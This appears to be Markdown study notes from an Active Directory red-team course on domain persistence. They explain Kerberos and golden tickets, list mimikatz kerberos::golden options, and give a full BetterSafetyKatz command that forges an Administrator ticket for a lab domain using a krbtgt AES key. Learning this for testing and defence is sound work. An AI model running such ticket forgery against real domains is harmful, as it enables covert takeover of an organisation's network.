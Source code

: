 # **Domain Persistence**


- There is much to active directory than "just" the Domain Admin.
- Once we have DA privileges new avenues of persistence, escalation to EA and attacks across trust open up!



## **Kerberos**

- Kerberos is the basis of authentication in a Windows Active Directory environment.
- Clients (programs on behalf of a user) need to obtain tickets from Key Distribution Center (KDC) which is a service running on the domain controller.
- These tickets represent the client's credentials.Therefore, Kerberos is understandably a very interesting target of abuse!



![](https://i.imgur.com/lpHU58k.png)



## **Golden Ticket**


- A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket.
- The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine.
- As a good practice, it is recommended to change the password of the krbtgt account twice as password history is maintained for the account.




![](https://i.imgur.com/f4Ti5Jm.png)




|  Options    |      |
|:-----|:-----|
|  kerberos::golden    |   Name of the module   |
|    /User:Administrator  |   Username for which the TGT is generated   |
|   /domain:dollarcorp.moneycorp.local   |  Domain FQDN    |
|  /sid:S-1-5-21-719815819-3726368948-3917688648|   SID of the domain   |
|   /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848   |   AES256 keys of the krbtgt account. Using AES keys makes the attack more silent.  |
|    /id:500 /groups:512  |   Optional User RID (default 500) and Group default 513 512 520518 519)   |
| /ptt   |    Injects the ticket in current PowerShell process - no need to save the ticket on disk  |
|   OR         |
|    /ticket  |    Saves the ticket to a file for later use  |
|    /startoffset:0  |  Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future.    |
|    /endin:600  |    Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes  |
|   /renewmax:10080   |   Optional ticket lifetime with renewal (default is 10 years)in minutes. The default AD setting is 7 days = 100800   |



**_Example Command_ -:**

- Run the below command to create a Golden ticket on any machine that has network connectivity with DC (You can use the above table to check what each does):

```powershell
$ C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```




